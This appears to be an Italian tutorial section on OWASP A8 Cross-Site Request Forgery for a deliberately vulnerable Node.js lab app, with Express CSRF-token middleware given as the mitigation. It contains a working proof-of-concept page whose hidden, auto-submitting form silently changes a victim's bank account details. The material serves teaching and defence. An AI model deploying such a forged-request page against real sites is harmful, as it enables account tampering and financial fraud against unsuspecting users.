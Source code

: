 # A8 - Cross-Site Request Forgery (CSRF) 
Per sfruttare questa vulnerabilità un attaccante dovrebbe costruire un sito malevolo e inviarlo alla vittima. Quando la vittima clicca sul link, la pagina html viene caricata e il form viene sottomesso aggiornando le informazioni del profilo della vittima.
```html
<html lang="en">
    <head></head>
    <body>
        <iframe name="hidden_iframe" style="display:none;"></iframe>
        <script>
            window.onload = function(){
            // Create a <form> element
            var p = document.createElement("form");
            p.action = "http://localhost:4000/profile";
            p.method = "post";
            p.target="hidden_iframe";
            // The fields are hidden, the victim will not see them.
            var fields;
            fields += "<input type='hidden' name='bankAcc' value='9999999'>";
            fields += "<input type='hidden' name='bankRouting' value='88888888#'>";
            p.innerHTML = fields;
            // Append the form to the current page
            document.body.appendChild(p);
            // Submit the form
            p.submit();
            }
        </script>
    </body>
</html> 
```
![](../img/A8/csrf.png)

#### 🛡️ Mitigation
Nel file `server.js` si può includere il middleware express CSRF dopo aver inzializzato la sessione
```js
 //Enable Express csrf protection
    app.use(express.csrf());

    app.use(function(req, res, next) { 
        res.locals.csrftoken = req.csrfToken(); 
        next(); 
    }); 
```
💡 **Spiegazione**:
- ✅ questo middleware controlla che ogni richiesta POST/PUT/DELETE contenga un token CSRF valido, legato alla sessione dell’utente.
- ✅ inoltre genera un token CSRF valido per la sessione corrente, usando `req.csrfToken()` e lo salva in `res.locals.csrftoken`, così può essere facilmente usato nel template HTML:

```html
<input type="hidden" name="_csrf" value="{{ csrftoken } }">
```

[🔙](01-as-is.md#a8---cross-site-request-forgery-csrf)